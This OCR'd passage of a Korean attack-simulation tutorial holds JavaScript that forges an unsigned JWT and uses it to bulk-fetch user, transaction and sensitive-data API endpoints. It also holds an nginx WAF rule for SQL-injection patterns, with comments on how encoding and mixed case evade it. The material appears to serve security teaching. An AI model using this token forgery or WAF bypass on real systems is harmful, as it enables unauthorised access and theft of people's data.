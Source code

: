 ```javascript
        const encodedPayload = btoa(JSON.stringify(payload));
        
        return encodedHeader + '.' + encodedPayload + '.';
    },
    
    // 3단계: 대량 API 호출을 통한 데이터 추출
    extractData: async function(manipulatedToken) {
        const dataEndpoints = [
            '/api/users',
            '/api/transactions',
            '/api/sensitive-data'
        ];
        
        const extractedData = {};
        for (const endpoint of dataEndpoints) {
            try {
                const response = await fetch(endpoint, {
                    headers: {
                        'Authorization': 'Bearer ' + manipulatedToken
                    }
                });
                extractedData[endpoint] = await response.json();
            } catch (error) {
                extractedData[endpoint] = { error: error.message };
            }
        }
        
        return extractedData;
    }
};
```

## 🎯 **3단계: 실제 환경 시뮬레이션**

### WAF(Web Application Firewall) 우회 시나리오
```nginx
# nginx-waf/waf-rules.conf
# 시뮬레이션된 WAF 규칙
location / {
    # SQL Injection 패턴 차단
    if ($args ~* "union.*select|script.*>|<.*script") {
        return 403;
    }
    
    # 하지만 우회 가능한 약점 존재
    # 예: URL 인코딩, 대소문자 혼용 등으로 우회 가능
    
    proxy_pass http://backend;
}
```
